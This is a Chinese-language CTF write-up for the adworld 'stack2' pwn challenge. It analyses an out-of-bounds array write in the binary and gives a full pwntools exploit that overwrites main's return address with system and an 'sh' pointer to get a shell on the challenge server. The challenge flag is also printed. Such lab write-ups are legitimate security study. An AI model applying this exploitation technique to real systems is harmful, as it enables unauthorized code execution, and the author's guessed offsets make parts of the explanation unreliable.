

# stack2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4bb2f552-6679-4d25-a18d-883e4d9c206b_2)

pwn是我最菜的领域之一。这道题题目是stack还让我觉得这题应该不难吧，没想到能这么折磨我这个萌新。

checksec检查一下程序。

-   Arch:     i386-32-little<br>RELRO:    Partial RELRO<br>Stack:    Canary found<br>NX:       NX enabled<br>PIE:      No PIE (0x8048000)

NX开了应该是要rop，栈溢出加上canary难道是要爆破canary值？放进ghidra里看看。


上半部分就是普通的变量赋值可打印开始菜单。下面四个while嵌套初看有点奇怪，后面简单分析一下就能看出来是用一种比较奇怪的方式实现了选择操作。



剩下的部分就是实现功能了。既然这道题是说栈溢出，那先看看有scanf的地方：第33，38，49，54，71和74行。

- ### scanf
- > 从标准输入 stdin 读取格式化输入。
- 声明：int scanf(const char *format, ...)
- 参数：format -- 这是 C 字符串，包含了以下各项中的一个或多个：空格字符、非空格字符 和 format 说明符。
- format说明符格式：\[=%\[*][width][modifiers]type=]

就是从标准输入区stdin读取内容，以format的形式存储到format参数后的变量中。常见的栈溢出有可能出现在这里。&DAT_08048a97的值为%d，意思就是接收数字，鬼知道ghidra怎么解释成了这玩意。看一圈下来发现没有普通的缓冲区溢出，因为大部分scanf周围都有一个索引<100的判断，除了第71和74行。既然他俩这么特殊那就把突破点设在这了。

第71行的scanf将数据存放到countOfNumbers中（这个变量在最上面还有出现，用于记录有多少数字的，所以这里的命名可能有点不对），并在75行将countOfNumbers作为numbers数组的索引。相比于简单的栈溢出，这种形式会更难发现有一个任意地址写入。前面已经说过c语言中数组是不会索引越界的，只会按照数组当前地址一直往后推。我们的目标是用相对偏移把system函数写到main的返回地址。

至于这个偏移怎么找，你可以选择直接在ghidra或者ida里看，虽然直接看是不对的但是你可以每次往上加4位，一般偏差都不远。或者用更正确的方法，放到gdb里进行动态调试。记得用pwndbg或者peda等插件，直接用原版非常折磨人。这里我只有原版，所以就直接猜了。我在ghidra里看到numbers与返回地址的偏移是0x78，和ida不一样。

先把下面的payload写了。先在本机测试，这样才容易保证后面的内容完全正确，才能猜偏移（极其笨的萌新方法请勿学习）。题目其实给了一个后门函数hackme，但没法用，非常折磨；加上这道题不知道为啥很容易无限main循环，疯狂刷屏更搞心态了。

一般拿shell都是用/bin/sh的，这里突然来个/bin/bash可能有鬼。看了writeup后发现还真的有鬼，不能用。不过既然里面有system，直接自己调用system得了，32位传参也简单。

完整exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",60389)
def Write_Addr(offset,payload):
    proc.sendlineafter("5. exit",'3')
    proc.sendlineafter("which number to change:",str(offset))
    proc.sendlineafter("new number:",str(payload))
proc.sendlineafter("How many numbers you have:",'1')
proc.sendlineafter("Give me your numbers",'1')
Write_Addr(0x84, 0x50)
Write_Addr(0x85, 0x84)
Write_Addr(0x86, 0x04)
Write_Addr(0x87, 0x08)
Write_Addr(0x8c, 0x87)
Write_Addr(0x8d, 0x89)
Write_Addr(0x8e, 0x04)
Write_Addr(0x8f, 0x08)
proc.sendlineafter("5. exit",'5')
proc.interactive()
```

可以很容易在ghidra或者ida中找到system的地址：0x08048450。这里是小端所以要倒过来写。拿shell可以直接system("sh")，简单省力。sh也可以在内存中找到。

- ROPgadget --binary 3fb1a42837be485aae7d85d11fbc457b --string 'sh'
- > Strings information<br>============================================================<br>0x08048987 : sh<br>0x08048ab3 : sh

ROPgadget可以帮助寻找gadget。--binary指定文件，--string指定查找的字符串。这里就用上面那个了：0x08048987。因为是x86，所以函数参数在函数返回地址的上方。中间空了4个字节是为了伪造了一个x86平台下的函数调用(plt，返回地址，参数)。很多时候看起来没啥问题的payload却总是拿不到shell有可能就是这个原因（虽然其实我不太懂）

- ### Flag
- > cyberpeace{0240e66795b6c099e73711bb2292af63}